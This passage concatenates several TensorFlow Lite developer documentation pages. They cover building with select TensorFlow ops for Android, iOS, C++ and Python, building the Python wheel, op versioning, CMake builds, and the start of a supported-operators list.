[Sonatype snapshot repository](./build_android#use_nightly_snapshots).

Once you've added the dependency, the necessary delegate for handling the
graph's TensorFlow ops should be automatically installed for graphs that require
them.

*Note*: The TensorFlow ops dependency is relatively large, so you'll probably
want to filter out unnecessary x86 ABIs in your `.gradle` file by setting up
your `abiFilters`.

```build
android {
    defaultConfig {
        ndk {
            abiFilters 'armeabi-v7a', 'arm64-v8a'
        }
    }
}
```

#### Building the Android AAR

For reducing the binary size or other advanced cases, you can also build the
library manually. Assuming a <a href="android.md">working TensorFlow Lite build
environment</a>, build the Android AAR with select TensorFlow ops as follows:

```sh
sh tensorflow/lite/tools/build_aar.sh \
  --input_models=/a/b/model_one.tflite,/c/d/model_two.tflite \
  --target_archs=x86,x86_64,arm64-v8a,armeabi-v7a
```

This will generate the AAR file `bazel-bin/tmp/tensorflow-lite.aar` for
TensorFlow Lite built-in and custom ops; and generate the AAR file
`bazel-bin/tmp/tensorflow-lite-select-tf-ops.aar` for TensorFlow ops. If you
don't have a working build environment, You can also
[build above files with docker](../guide/reduce_binary_size.md#selectively_build_tensorflow_lite_with_docker).

From there, you can either import the AAR files directly into your project, or
publish the custom AAR files to your local Maven repository:

```sh
mvn install:install-file \
  -Dfile=bazel-bin/tmp/tensorflow-lite.aar \
  -DgroupId=org.tensorflow \
  -DartifactId=tensorflow-lite -Dversion=0.1.100 -Dpackaging=aar
mvn install:install-file \
  -Dfile=bazel-bin/tmp/tensorflow-lite-select-tf-ops.aar \
  -DgroupId=org.tensorflow \
  -DartifactId=tensorflow-lite-select-tf-ops -Dversion=0.1.100 -Dpackaging=aar
```

Finally, in your app's `build.gradle`, ensure you have the `mavenLocal()`
dependency and replace the standard TensorFlow Lite dependency with the one that
has support for select TensorFlow ops:

```build
allprojects {
    repositories {
        mavenCentral()
        maven {  // Only for snapshot artifacts
            name 'ossrh-snapshot'
            url 'https://oss.sonatype.org/content/repositories/snapshots'
        }
        mavenLocal()
    }
}

dependencies {
    implementation 'org.tensorflow:tensorflow-lite:0.1.100'
    implementation 'org.tensorflow:tensorflow-lite-select-tf-ops:0.1.100'
}
```

### iOS

#### Using CocoaPods

We provide nightly prebuilt select TF ops CocoaPods for `armv7` and `arm64`,
which you can depend on alongside the `TensorFlowLiteSwift` or
`TensorFlowLiteObjC` CocoaPods.

*Note*: If you need to use select TF ops in an `x86_64` simulator, you can build
the select ops framework yourself. See [Using Bazel + Xcode](#using_bazel_xcode)
section for more details.

```ruby
# In your Podfile target:
  pod 'TensorFlowLiteSwift'   # or 'TensorFlowLiteObjC'
  pod 'TensorFlowLiteSelectTfOps', '~> 0.0.1-nightly'
```

After running `pod install`, you need to provide an additional linker flag to
force load the select TF ops framework into your project. In your Xcode project,
go to `Build Settings` -> `Other Linker Flags`, and add:

```text
-force_load $(SRCROOT)/Pods/TensorFlowLiteSelectTfOps/Frameworks/TensorFlowLiteSelectTfOps.framework/TensorFlowLiteSelectTfOps
```

You should then be able to run any models converted with the `SELECT_TF_OPS` in
your iOS app. For example, you can modify the
[Image Classification iOS app](https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/ios)
to test the select TF ops feature.

*   Replace the model file with the one converted with `SELECT_TF_OPS` enabled.
*   Add `TensorFlowLiteSelectTfOps` dependency to the `Podfile` as instructed.
*   Add the additional linker flag as above.
*   Run the example app and see if the model works correctly.

#### Using Bazel + Xcode

TensorFlow Lite with select TensorFlow ops for iOS can be built using Bazel.
First, follow the [iOS build instructions](build_ios.md) to configure your Bazel
workspace and `.bazelrc` file correctly.

Once you have configured the workspace with iOS support enabled, you can use the
following command to build the select TF ops addon framework, which can be added
on top of the regular `TensorFlowLiteC.framework`. Note that the select TF ops
framework cannot be built for `i386` architecture, so you need to explicitly
provide the list of target architectures excluding `i386`.

```sh
bazel build -c opt --config=ios --ios_multi_cpus=armv7,arm64,x86_64 \
  //tensorflow/lite/ios:TensorFlowLiteSelectTfOps_framework
```

This will generate the framework under `bazel-bin/tensorflow/lite/ios/`
directory. You can add this new framework to your Xcode project by following
similar steps described under the
[Xcode project settings](./build_ios.md#modify_xcode_project_settings_directly)
section in the iOS build guide.

After adding the framework into your app project, an additional linker flag
should be specified in your app project to force load the select TF ops
framework. In your Xcode project, go to `Build Settings` -> `Other Linker
Flags`, and add:

```text
-force_load <path/to/your/TensorFlowLiteSelectTfOps.framework/TensorFlowLiteSelectTfOps>
```

### C++

When building TensorFlow Lite libraries using the bazel pipeline, the additional
TensorFlow ops library can be included and enabled as follows:

*   Enable monolithic builds if necessary by adding the `--config=monolithic`
    build flag.
*   Add the TensorFlow ops delegate library dependency to the build
    dependencies: `tensorflow/lite/delegates/flex:delegate`.

Note that the necessary `TfLiteDelegate` will be installed automatically when
creating the interpreter at runtime as long as the delegate is linked into the
client library. It is not necessary to explicitly install the delegate instance
as is typically required with other delegate types.

### Python

TensorFlow Lite with select TensorFlow ops will be installed automatically with
the [TensorFlow pip package](https://www.tensorflow.org/install/pip). You can
also choose to only install the
[TensorFlow Lite Interpreter pip package](https://www.tensorflow.org/lite/guide/python#install_just_the_tensorflow_lite_interpreter).

Note: TensorFlow Lite with select TensorFlow ops are available in the TensorFlow
pip package version since 2.3 for Linux and 2.4 for other environments.

## Metrics

### Performance

When using a mixture of both builtin and select TensorFlow ops, all of the same
TensorFlow Lite optimizations and optimized builtin ops will be available and
usable with the converted model.

The following table describes the average time taken to run inference on
MobileNet on a Pixel 2. The listed times are an average of 100 runs. These
targets were built for Android using the flags: `--config=android_arm64 -c opt`.

Build                                | Time (milliseconds)
------------------------------------ | -------------------
Only built-in ops (`TFLITE_BUILTIN`) | 260.7
Using only TF ops (`SELECT_TF_OPS`)  | 264.5

### Binary size

The following table describes the binary size of TensorFlow Lite for each build.
These targets were built for Android using `--config=android_arm -c opt`.

Build                     | C++ Binary Size | Android APK Size
------------------------- | --------------- | ----------------
Only built-in ops         | 796 KB          | 561 KB
Built-in ops + TF ops     | 23.0 MB         | 8.0 MB
Built-in ops + TF ops (1) | 4.1 MB          | 1.8 MB

(1) These libraries are selectively built for
[i3d-kinetics-400 model](https://tfhub.dev/deepmind/i3d-kinetics-400/1) with 8
TFLite builtin ops and 3 Tensorflow ops. For more details, please see the
[Reduce TensorFlow Lite binary size](../guide/reduce_binary_size.md) section.

## Known limitations

*   Unsupported types: Certain TensorFlow ops may not support the full set of
    input/output types that are typically available in TensorFlow.

## Updates

*   Version 2.6
    -   Supports for GraphDef-attribute based operators and HashTable resource
        initializations have improved.
*   Version 2.5
    -   You can apply an optimization known as
        [post training quantization](../performance/post_training_quantization.md)
*   Version 2.4
    -   Compatibility with hardware accelerated delegates has improved
# Build TensorFlow Lite Python Wheel Package

This page describes how to build the TensorFlow Lite `tflite_runtime` Python
library for x86_64 and various ARM devices.

The following instructions have been tested on Ubuntu 16.04.3 64-bit PC (AMD64)
, macOS Catalina (x86_64) and TensorFlow devel Docker image
[tensorflow/tensorflow:devel](https://hub.docker.com/r/tensorflow/tensorflow/tags/).

**Note:** This feature is available since version 2.4.

#### Prerequisites

You need CMake installed and a copy of the TensorFlow source code. Please check
[Build TensorFlow Lite with CMake](https://www.tensorflow.org/lite/guide/build_cmake)
page for the details.

To build the PIP package for your workstation, you can run the following
commands.

```sh
PYTHON=python3 tensorflow/lite/tools/pip_package/build_pip_package_with_cmake.sh native
```

**Note:** If you have multiple Python interpreters available, specify the exact
Python version with `PYTHON` variable. (Currently, it supports Python 3.5 or
higher)

## ARM cross compilation

For ARM cross compilation, it's recommended to use Docker since it makes easier
to setup cross build environment. Also you needs a `target` option to figure out
the target architecture.

There is a helper script `tensorflow/tools/ci_build/ci_build.sh` available to
invoke a build command using a pre-defined Docker container. On a Docker host
machine, you can run a build command with the `container` name and the `target`
name as followings.

```sh
tensorflow/tools/ci_build/ci_build.sh <container> \
  tensorflow/lite/tools/pip_package/build_pip_package_with_cmake.sh <target>
```

### Available Docker containers

You need to select ARM cross build container for your target Python interpreter
version. Here is the list of supported containers.

Container   | Supported Python version
----------- | ------------------------
PI-PYTHON37 | Python 3.7
PI-PYTHON38 | Python 3.8
PI-PYTHON39 | Python 3.9

### Available target names

`tensorflow/lite/tools/pip_package/build_pip_package_with_cmake.sh` script needs
a target name to figure out target architecture. Here is the list of supported
targets.

Target    | Target architecture  | Comments
--------- | -------------------- | --------
armhf     | ARMv7 VFP with Neon  | Compatible with Raspberry Pi 3 and 4
rpi0      | ARMv6                | Compatible with Raspberry Pi Zero
aarch64   | aarch64 (ARM 64-bit) | [Coral Mendel Linux 4.0](https://coral.ai/) <br/> Raspberry Pi with [Ubuntu Server 20.04.01 LTS 64-bit](https://ubuntu.com/download/raspberry-pi)
native    | Your workstation     | It builds with "-mnative" optimization
<default> | Your workstation     | Default target

### Build examples

Here are some example commands you can use.

#### armhf target for Python 3.7

```sh
tensorflow/tools/ci_build/ci_build.sh PI-PYTHON37 \
  tensorflow/lite/tools/pip_package/build_pip_package_with_cmake.sh armhf
```

#### aarch64 target for Python 3.8

```sh
tensorflow/tools/ci_build/ci_build.sh PI-PYTHON38 \
  tensorflow/lite/tools/pip_package/build_pip_package_with_cmake.sh aarch64
```

#### How to use a custom toolchain?

If the generated binaries are not compatible with your target, you need to use
your own toolchain or provide custom build flags. (Check
[this](https://www.tensorflow.org/lite/guide/build_cmake_arm#check_your_target_environment)
to understand your target environment) In that case, you need to modify
`tensorflow/lite/tools/cmake/download_toolchains.sh` to use your own toolchain.
The toolchain script defines the following two variables for the
`build_pip_package_with_cmake.sh` script.

Variable     | Purpose                  | example
------------ | ------------------------ | -------------------------------
ARMCC_PREFIX | defines toolchain prefix | arm-linux-gnueabihf-
ARMCC_FLAGS  | compilation flags        | -march=armv7-a -mfpu=neon-vfpv4

**Note:** ARMCC_FLAGS might need to contain Python library include path. See the
`download_toolchains.sh` for the reference.
# TensorFlow Lite operator versions

This document describes TensorFlow Lite's op versioning schema. Op versioning
enables developers to add new functionalities and parameters into existing ops.
In addition, it guarantees the following:

*   Backward compatibility: New TensorFlow Lite implementation should handle an
    old model file.
*   Forward compatibility: Old TensorFlow Lite implementation should handle a
    new model file produced by new version of converter, as long as no new
    features are used.
*   Forward in-compatibility detection: If an old TensorFlow Lite implementation
    reads a new model that contains a new version of an op which isn't
    supported, it should report the error.

## Example: Adding dilation into depthwise convolution

The remainder of this document explains op versioning in TFLite by showing how
to add dilation parameters to the depthwise convolution operation.

Knowledge of dilation is not required to understand this document. Note that:

*   2 new integer parameters will be added: `dilation_width_factor` and
    `dilation_height_factor`.
*   Old depthwise convolution kernels that don't support dilation are equivalent
    to setting the dilation factors to 1.

### Change FlatBuffer schema

To add new parameters into an op, change the options table in
`lite/schema/schema.fbs`.

For example, the options table of depthwise convolution looks like this:

```
table DepthwiseConv2DOptions {
  padding:Padding;
  stride_w:int;
  stride_h:int;
  depth_multiplier:int;
  fused_activation_function:ActivationFunctionType;
}
```

When adding new parameters:

*   Add comments indicating which parameters are supported by which version.
*   When the new implementation gets the default values for newly added
    parameters, it should work exactly the same as the old implementation.

The table will be like this after the new parameters are added:

```
table DepthwiseConv2DOptions {
  // Parameters for DepthwiseConv version 1 or above.
  padding:Padding;
  stride_w:int;
  stride_h:int;
  depth_multiplier:int;
  fused_activation_function:ActivationFunctionType;
  // Parameters for DepthwiseConv version 2 or above.
  dilation_w_factor:int = 1;
  dilation_h_factor:int = 1;
}
```

The file `lite/schema/schema_generated.h` should be re-generated for the new
schema.

### Change C structures and kernel implementation

In TensorFlow Lite, the kernel implementation is decoupled from FlatBuffer
definition. The kernels read the parameter from C structures defined in
`lite/c/builtin_op_data.h`.

The original depthwise convolution parameter is as follows:

```
typedef struct {
  TfLitePadding padding;
  int stride_width;
  int stride_height;
  int depth_multiplier;
  TfLiteFusedActivation activation;
} TfLiteDepthwiseConvParams;
```

As with the FlatBuffer schema, add comments indicating which parameters are
supported starting from which version. The result is seen below:

```
typedef struct {
  // Parameters for DepthwiseConv version 1 or above.
  TfLitePadding padding;
  int stride_width;
  int stride_height;
  int depth_multiplier;
  TfLiteFusedActivation activation;
  // Parameters for DepthwiseConv version 2 or above.
  int dilation_width_factor;
  int dilation_height_factor;
} TfLiteDepthwiseConvParams;
```

Please also change the kernel implementation to read the newly added parameters
from the C structures. The details are omitted here.

### Change the FlatBuffer reading code

The logic to read FlatBuffer and produce C structure is in
`lite/core/api/flatbuffer_conversions.cc`.

Update the file to handle the new parameters, as shown below:

```
TfLiteStatus ParseDepthwiseConv2D(const Operator* op,
                                  ErrorReporter* error_reporter,
                                  BuiltinDataAllocator* allocator,
                                  void** builtin_data) {
  CheckParsePointerParams(op, error_reporter, allocator, builtin_data);

  SafeBuiltinDataAllocator safe_allocator(allocator);

  std::unique_ptr<TfLiteDepthwiseConvParams,
                  SafeBuiltinDataAllocator::BuiltinDataDeleter>
      params = safe_allocator.Allocate<TfLiteDepthwiseConvParams>();
  TF_LITE_ENSURE(error_reporter, params != nullptr);

  const DepthwiseConv2DOptions* schema_params =
      op->builtin_options_as_DepthwiseConv2DOptions();

  if (schema_params != nullptr) {
    params->padding = ConvertPadding(schema_params->padding());
    params->stride_width = schema_params->stride_w();
    params->stride_height = schema_params->stride_h();
    params->depth_multiplier = schema_params->depth_multiplier();
    params->activation =
        ConvertActivation(schema_params->fused_activation_function());

    params->dilation_width_factor = schema_params->dilation_w_factor();
    params->dilation_height_factor = schema_params->dilation_h_factor();
  }

  *builtin_data = params.release();
  return kTfLiteOk;
}
```

It's not required to check the op version here. When the new implementation
reads an old model file where dilation factors are missing, it will use 1 as the
default value, and the new kernel will work consistently with the old kernel.

### Change kernel registration

The MutableOpResolver (defined in `lite/mutable_op_resolver.h`) provides a few
functions to register op kernels. The minimum and maximum version are 1 by
default:

```
void AddBuiltin(tflite::BuiltinOperator op, TfLiteRegistration* registration,
                int min_version = 1, int max_version = 1);
void AddCustom(const char* name, TfLiteRegistration* registration,
               int min_version = 1, int max_version = 1);
```

The built-in ops are registered in `lite/kernels/register.cc`. In this example,
we implemented a new op kernel which can handle `DepthwiseConv2D` version 1 and
2, so we need to change this line:

```
AddBuiltin(BuiltinOperator_DEPTHWISE_CONV_2D, Register_DEPTHWISE_CONV_2D());
```

to:

```
AddBuiltin(BuiltinOperator_DEPTHWISE_CONV_2D, Register_DEPTHWISE_CONV_2D(),
             /* min_version = */ 1,
             /* max_version = */ 2);
```

### Change TFLite op version

The next step is to make TFLite populate the minimum version that's required to
execute the op. In this example, it means:

*   Populate version=1 when dilation factors are all 1.
*   Populate version=2 otherwise.

Modify `GetBuiltinOperatorVersion` function for the operator in
`lite/tools/versioning/op_version.cc` by adding the new version to the case of
`DepthwiseConv2D`:

```
case BuiltinOperator_DEPTHWISE_CONV_2D:
  auto depthwise_conv_params =
      reinterpret_cast<TfLiteDepthwiseConvParams*>(op_sig.builtin_data);
  TFLITE_DCHECK(depthwise_conv_params != nullptr);
  if (depthwise_conv_params->dilation_width_factor != 1 ||
       depthwise_conv_params->dilation_height_factor != 1) {
    return 2;
  }
  return 1;
```

### Update the operator version map

The last step is to add the new version info into the operator version map. This
step is required because we need to generate the model's minimum required
runtime version based on this version map.

To do this, you need to add a new map entry in
`lite/tools/versioning/runtime_version.cc`.

In this example, you need to add the following entry into `op_version_map`:

```
{{BuiltinOperator_DEPTHWISE_CONV_2D, 2}, %CURRENT_RUNTIME_VERSION%}
```

where `%CURRENT_RUNTIME_VERSION%` corresponds to the current runtime version
defined in [tensorflow/core/public/version.h](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/public/version.h).

### Delegation implementation

TensorFlow Lite provides a delegation API which enables delegating ops to
hardware backends. In the delegate's `Prepare` function, check if the version is
supported for every node in Delegation code.

```
const int kMaxVersion = 1;
TfLiteNode* node;
TfLiteRegistration* registration = nullptr;
TF_LITE_ENSURE_STATUS(context->GetNodeAndRegistration(context, node_index, &node, &registration));

if (registration->version > kMaxVersion) {
  // Reject the node if the version isn't supported.
}
```

This is required even if the delegation only supports version 1 ops, so the
delegation can detect incompatibility when getting a higher version op.
# Build TensorFlow Lite with CMake

This page describes how to build and use the TensorFlow Lite library with
[CMake](https://cmake.org/) tool.

The following instructions have been tested on Ubuntu 16.04.3 64-bit PC (AMD64)
, macOS Catalina (x86_64), Windows 10 and TensorFlow devel Docker image
[tensorflow/tensorflow:devel](https://hub.docker.com/r/tensorflow/tensorflow/tags/).

**Note:** This feature is available since version 2.4.

### Step 1. Install CMake tool

It requires CMake 3.16 or higher. On Ubuntu, you can simply run the following
command.

```sh
sudo apt-get install cmake
```

Or you can follow
[the official cmake installation guide](https://cmake.org/install/)

### Step 2. Clone TensorFlow repository

```sh
git clone https://github.com/tensorflow/tensorflow.git tensorflow_src
```

**Note:** If you're using the TensorFlow Docker image, the repo is already
provided in `/tensorflow_src/`.

### Step 3. Create CMake build directory

```sh
mkdir tflite_build
cd tflite_build
```

### Step 4. Run CMake tool with configurations

#### Release build

It generates an optimized release binary by default. If you want to build for
your workstation, simply run the following command.

```sh
cmake ../tensorflow_src/tensorflow/lite
```

#### Debug build

If you need to produce a debug build which has symbol information, you need to
provide `-DCMAKE_BUILD_TYPE=Debug` option.

```sh
cmake ../tensorflow_src/tensorflow/lite -DCMAKE_BUILD_TYPE=Debug
```

#### Build with kernel unit tests

In order to be able to run kernel tests, you need to provide
'-DTFLITE_KERNEL_TEST=on' flag. Unit test cross-compilation specifics can be
found in the next subsection.

```sh
cmake ../tensorflow_src/tensorflow/lite -DTFLITE_KERNEL_TEST=on
```

#### Cross-compilation

You can use CMake to build binaries for ARM64 or Android target architectures.

In order to cross-compile the TF Lite, you namely need to provide the path to
the SDK (e.g. ARM64 SDK or NDK in Android's case) with `-DCMAKE_TOOLCHAIN_FILE`
flag.

```sh
cmake -DCMAKE_TOOLCHAIN_FILE=<CMakeToolchainFileLoc> ../tensorflow/lite/
```

##### Specifics of Android cross-compilation

For Android cross-compilation, you need to install
[Android NDK](https://developer.android.com/ndk) and provide the NDK path with
`-DCMAKE_TOOLCHAIN_FILE` flag mentioned above. You also need to set target ABI
with`-DANDROID_ABI` flag.

```sh
cmake -DCMAKE_TOOLCHAIN_FILE=<NDK path>/build/cmake/android.toolchain.cmake \
  -DANDROID_ABI=arm64-v8a ../tensorflow_src/tensorflow/lite
```

##### Specifics of kernel (unit) tests cross-compilation

Cross-compilation of the unit tests requires flatc compiler for the host
architecture. For this purpose, there is a CMakeLists located in
`tensorflow/lite/tools/cmake/native_tools/flatbuffers` to build the flatc
compiler with CMake in advance in a separate build directory using the host
toolchain.

```sh
mkdir flatc-native-build && cd flatc-native-build
cmake ../tensorflow_src/tensorflow/lite/tools/cmake/native_tools/flatbuffers
cmake --build .
```

It is also possible **to install** the *flatc* to a custom installation location
(e.g. to a directory containing other natively-built tools instead of the CMake
build directory):

```sh
cmake -DCMAKE_INSTALL_PREFIX=<native_tools_dir> ../tensorflow_src/tensorflow/lite/tools/cmake/native_tools/flatbuffers
cmake --build .
```

For the TF Lite cross-compilation itself, additional parameter
`-DTFLITE_HOST_TOOLS_DIR=<flatc_dir_path>` pointing to the directory containing
the native *flatc* binary needs to be provided along with the
`-DTFLITE_KERNEL_TEST=on` flag mentioned above.

```sh
cmake -DCMAKE_TOOLCHAIN_FILE=${OE_CMAKE_TOOLCHAIN_FILE} -DTFLITE_KERNEL_TEST=on -DTFLITE_HOST_TOOLS_DIR=<flatc_dir_path> ../tensorflow/lite/
```

##### Cross-compiled kernel (unit) tests launch on target

Unit tests can be run as separate executables or using the CTest utility. As far
as CTest is concerned, if at least one of the parameters `TFLITE_ENABLE_NNAPI,
TFLITE_ENABLE_XNNPACK` or `TFLITE_EXTERNAL_DELEGATE` is enabled for the TF Lite
build, the resulting tests are generated with two different **labels**
(utilizing the same test executable): - *plain* - denoting the tests ones run on
CPU backend - *delegate* - denoting the tests expecting additional launch
arguments used for the used delegate specification

Both `CTestTestfile.cmake` and `run-tests.cmake` (as referred below) are
available in `<build_dir>/kernels`.

Launch of unit tests with CPU backend (provided the `CTestTestfile.cmake` is
present on target in the current directory):

```sh
ctest -L plain
```

Launch examples of unit tests using delegates (provided the
`CTestTestfile.cmake` as well as `run-tests.cmake` file are present on target in
the current directory):

```sh
cmake -E env TESTS_ARGUMENTS=--use_nnapi=true\;--nnapi_accelerator_name=vsi-npu ctest -L delegate
cmake -E env TESTS_ARGUMENTS=--use_xnnpack=true ctest -L delegate
cmake -E env TESTS_ARGUMENTS=--external_delegate_path=<PATH> ctest -L delegate
```

**A known limitation** of this way of providing additional delegate-related
launch arguments to unit tests is that it effectively supports only those with
an **expected return value of 0**. Different return values will be reported as a
test failure.

#### OpenCL GPU delegate

If your target machine has OpenCL support, you can use
[GPU delegate](https://www.tensorflow.org/lite/performance/gpu) which can
leverage your GPU power.

To configure OpenCL GPU delegate support:

```sh
cmake ../tensorflow_src/tensorflow/lite -DTFLITE_ENABLE_GPU=ON
```

**Note:** It's experimental and available starting from TensorFlow 2.5. There
could be compatibility issues. It's only verified with Android devices and
NVidia CUDA OpenCL 1.2.

### Step 5. Build TensorFlow Lite

In the tflite_build directory,

```sh
cmake --build . -j
```

**Note:** This generates a static library `libtensorflow-lite.a` in the current
directory but the library isn't self-contained since all the transitive
dependencies are not included. To use the library properly, you need to create a
CMake project. Please refer the
["Create a CMake project which uses TensorFlow Lite"](#create_a_cmake_project_which_uses_tensorflow_lite)
section.

### Step 6. Build TensorFlow Lite Benchmark Tool and Label Image Example (Optional)

In the tflite_build directory,

```sh
cmake --build . -j -t benchmark_model
```

```sh
cmake --build . -j -t label_image
```

## Available Options to build TensorFlow Lite

Here is the list of available options. You can override it with
`-D<option_name>=[ON|OFF]`. For example, `-DTFLITE_ENABLE_XNNPACK=OFF` to
disable XNNPACK which is enabled by default.

| Option Name           | Feature        | Android | Linux | macOS | Windows |
| --------------------- | -------------- | ------- | ----- | ----- | ------- |
| TFLITE_ENABLE_RUY     | Enable RUY     | ON      | OFF   | OFF   | OFF     |
:                       : matrix         :         :       :       :         :
:                       : multiplication :         :       :       :         :
:                       : library        :         :       :       :         :
| TFLITE_ENABLE_NNAPI   | Enable NNAPI   | ON      | OFF   | N/A   | N/A     |
:                       : delegate       :         :       :       :         :
| TFLITE_ENABLE_GPU     | Enable GPU     | OFF     | OFF   | N/A   | N/A     |
:                       : delegate       :         :       :       :         :
| TFLITE_ENABLE_XNNPACK | Enable XNNPACK | ON      | ON    | ON    | ON      |
:                       : delegate       :         :       :       :         :
| TFLITE_ENABLE_MMAP    | Enable MMAP    | ON      | ON    | ON    | N/A     |

## Create a CMake project which uses TensorFlow Lite

Here is the CMakeLists.txt of
[TFLite minimal example](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/examples/minimal).

You need to have add_subdirectory() for TensorFlow Lite directory and link
`tensorflow-lite` with target_link_libraries().

```
cmake_minimum_required(VERSION 3.16)
project(minimal C CXX)

set(TENSORFLOW_SOURCE_DIR "" CACHE PATH
  "Directory that contains the TensorFlow project" )
if(NOT TENSORFLOW_SOURCE_DIR)
  get_filename_component(TENSORFLOW_SOURCE_DIR
    "${CMAKE_CURRENT_LIST_DIR}/../../../../" ABSOLUTE)
endif()

add_subdirectory(
  "${TENSORFLOW_SOURCE_DIR}/tensorflow/lite"
  "${CMAKE_CURRENT_BINARY_DIR}/tensorflow-lite" EXCLUDE_FROM_ALL)

add_executable(minimal minimal.cc)
target_link_libraries(minimal tensorflow-lite)
```

## Build TensorFlow Lite C library

If you want to build TensorFlow Lite shared library for
[C API](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/c/README.md),
follow [step 1](#step-1-install-cmake-tool) to
[step 3](#step-3-create-cmake-build-directory) first. After that, run the
following commands.

```sh
cmake ../tensorflow_src/tensorflow/lite/c
cmake --build . -j
```

This command generates the following shared library in the current directory.

Platform | Library name
-------- | -------------------------
Linux    | libtensorflowlite_c.so
macOS    | libtensorflowlite_c.dylib
Windows  | tensorflowlite_c.dll

**Note:** You need necessary headers (c_api.h, c_api_experimental.h and
common.h) to use the generated shared library.
# Supported Select TensorFlow operators

Caution: The operators list is updated frequently.

## TensorFlow core operators

The following is an exhaustive list of TensorFlow core operations that are
supported by TensorFlow Lite runtime with the Select TensorFlow Ops feature.

*   `raw_ops.Abort`
*   `raw_ops.Abs`
*   `raw_ops.Add`
*   `raw_ops.AddN`
*   `raw_ops.AddV2`
*   `raw_ops.AdjustContrast`
*   `raw_ops.AdjustContrastv2`
*   `raw_ops.AdjustHue`
*   `raw_ops.AdjustSaturation`
*   `raw_ops.All`
*   `raw_ops.Angle`
*   `raw_ops.Any`
*   `raw_ops.ApplyAdadelta`
*   `raw_ops.ApplyAdagrad`
*   `raw_ops.ApplyAdagradDA`
*   `raw_ops.ApplyAdagradV2`
*   `raw_ops.ApplyAdam`
*   `raw_ops.ApplyAdaMax`
*   `raw_ops.ApplyAddSign`
*   `raw_ops.ApplyCenteredRMSProp`
*   `raw_ops.ApplyFtrl`
*   `raw_ops.ApplyFtrlV2`
*   `raw_ops.ApplyGradientDescent`
*   `raw_ops.ApplyMomentum`
*   `raw_ops.ApplyPowerSign`
*   `raw_ops.ApplyProximalAdagrad`
*   `raw_ops.ApplyProximalGradientDescent`
*   `raw_ops.ApplyRMSProp`
*   `raw_ops.ApproximateEqual`
*   `raw_ops.ArgMax`
*   `raw_ops.ArgMin`
*   `raw_ops.AsString`
*   `raw_ops.Assert`
*   `raw_ops.Assign`
*   `raw_ops.AssignAdd`
*   `raw_ops.AssignAddVariableOp`
*   `raw_ops.AssignSub`
*   `raw_ops.AssignSubVariableOp`
*   `raw_ops.AssignVariableOp`
*   `raw_ops.Atan`
*   `raw_ops.Atan2`
*   `raw_ops.AudioSpectrogram`
*   `raw_ops.AvgPool`
*   `raw_ops.AvgPool3D`
*   `raw_ops.AvgPool3DGrad`
*   `raw_ops.AvgPoolGrad`
*   `raw_ops.BatchCholesky`
*   `raw_ops.BatchDatasetV2`
*   `raw_ops.BatchMatMul`
*   `raw_ops.BatchMatMulV2`
*   `raw_ops.BatchMatrixBandPart`
*   `raw_ops.BatchMatrixDiag`
*   `raw_ops.BatchMatrixDiagPart`
*   `raw_ops.BatchMatrixInverse`
*   `raw_ops.BatchMatrixSetDiag`
*   `raw_ops.BatchMatrixTriangularSolve`
*   `raw_ops.BatchNormWithGlobalNormalization`
*   `raw_ops.BatchNormWithGlobalNormalizationGrad`
*   `raw_ops.BatchToSpace`
*   `raw_ops.BatchToSpaceND`
*   `raw_ops.BiasAdd`
*   `raw_ops.BiasAddGrad`
*   `raw_ops.BiasAddV1`
*   `raw_ops.Bincount`
*   `raw_ops.Bitcast`
*   `raw_ops.BitwiseAnd`
*   `raw_ops.BitwiseOr`
*   `raw_ops.BitwiseXor`
*   `raw_ops.BoostedTreesBucketize`
*   `raw_ops.BoostedTreesCreateQuantileStreamResource`
*   `raw_ops.BoostedTreesFlushQuantileSummaries`
*   `raw_ops.BoostedTreesMakeQuantileSummaries`
*   `raw_ops.BoostedTreesQuantileStreamResourceAddSummaries`
*   `raw_ops.BoostedTreesQuantileStreamResourceDeserialize`
*   `raw_ops.BoostedTreesQuantileStreamResourceFlush`
*   `raw_ops.BoostedTreesQuantileStreamResourceGetBucketBoundaries`
*   `raw_ops.BoostedTreesQuantileStreamResourceHandleOp`
*   `raw_ops.BroadcastArgs`
*   `raw_ops.BroadcastGradientArgs`
*   `raw_ops.BroadcastTo`
*   `raw_ops.Bucketize`
*   `raw_ops.CTCBeamSearchDecoder`
*   `raw_ops.CTCGreedyDecoder`
*   `raw_ops.Cast`
*   `raw_ops.Ceil`
*   `raw_ops.CheckNumerics`
*   `raw_ops.CheckNumericsV2`
*   `raw_ops.Cholesky`
*   `raw_ops.CombinedNonMaxSuppression`
*   `raw_ops.Complex`
*   `raw_ops.ComplexAbs`
*   `raw_ops.Concat`
*   `raw_ops.ConcatOffset`
*   `raw_ops.ConcatV2`
*   `raw_ops.Conj`
*   `raw_ops.ConjugateTranspose`
*   `raw_ops.Const`
*   `raw_ops.ControlTrigger`
*   `raw_ops.Conv2D`
*   `raw_ops.Conv2DBackpropFilter`
*   `raw_ops.Conv2DBackpropInput`
*   `raw_ops.Conv3D`
*   `raw_ops.Conv3DBackpropFilter`
*   `raw_ops.Conv3DBackpropFilterV2`
*   `raw_ops.Conv3DBackpropInput`
*   `raw_ops.Conv3DBackpropInputV2`
*   `raw_ops.Cos`
*   `raw_ops.Cosh`
*   `raw_ops.CropAndResize`
*   `raw_ops.CropAndResizeGradBoxes`
*   `raw_ops.CropAndResizeGradImage`
*   `raw_ops.CTCBeamSearchDecoder`
*   `raw_ops.CTCGreedyDecoder`
*   `raw_ops.Cumprod`
*   `raw_ops.Cumsum`
*   `raw_ops.CumulativeLogsumexp`
*   `raw_ops.DataFormatDimMap`
*   `raw_ops.DataFormatVecPermute`
*   `raw_ops.DebugGradientIdentity`
*   `raw_ops.DebugGradientRefIdentity`
*   `raw_ops.DecodeAndCropJpeg`
*   `raw_ops.DecodeBase64`
*   `raw_ops.DecodeBmp`
*   `raw_ops.DecodeGif`
*   `raw_ops.DecodeImage`
*   `raw_ops.DecodeJpeg`
*   `raw_ops.DecodePaddedRaw`
*   `raw_ops.DecodePng`
*   `raw_ops.DecodeRaw`
*   `raw_ops.DecodeWav`
*   `raw_ops.DeepCopy`
*   `raw_ops.DeleteSessionTensor`
*   `raw_ops.DenseBincount`
*   `raw_ops.DenseToDenseSetOperation`
*   `raw_ops.DenseToSparseSetOperation`
*   `raw_ops.DepthToSpace`
*   `raw_ops.DepthwiseConv2dNative`
*   `raw_ops.DepthwiseConv2dNativeBackpropFilter`
*   `raw_ops.DepthwiseConv2dNativeBackpropInput`
*   `raw_ops.Dequantize`
